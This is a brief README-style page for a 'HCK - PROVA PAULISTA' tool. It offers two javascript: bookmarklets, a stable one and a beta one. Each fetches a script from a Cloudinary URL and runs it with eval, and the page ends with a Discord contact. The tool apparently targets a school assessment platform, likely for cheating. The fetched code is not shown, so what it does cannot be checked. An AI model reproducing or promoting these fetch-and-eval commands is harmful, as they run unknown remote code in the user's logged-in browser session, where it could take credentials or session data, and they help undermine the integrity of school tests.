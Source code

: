 # 🚀 HCK - PROVA PAULISTA 

### Stable Version:
```js
javascript:fetch("https://res.cloudinary.com/dctxcezsd/raw/upload/v1745012111/saladofuturo.js").then(t=>t.text()).then(eval);
```
### Beta Version (Em Testes):
```js
javascript:fetch("https://res.cloudinary.com/dctxcezsd/raw/upload/v1745546662/saladofuturov2.js").then(t=>t.text()).then(eval);
```

### Discord: hackermoon
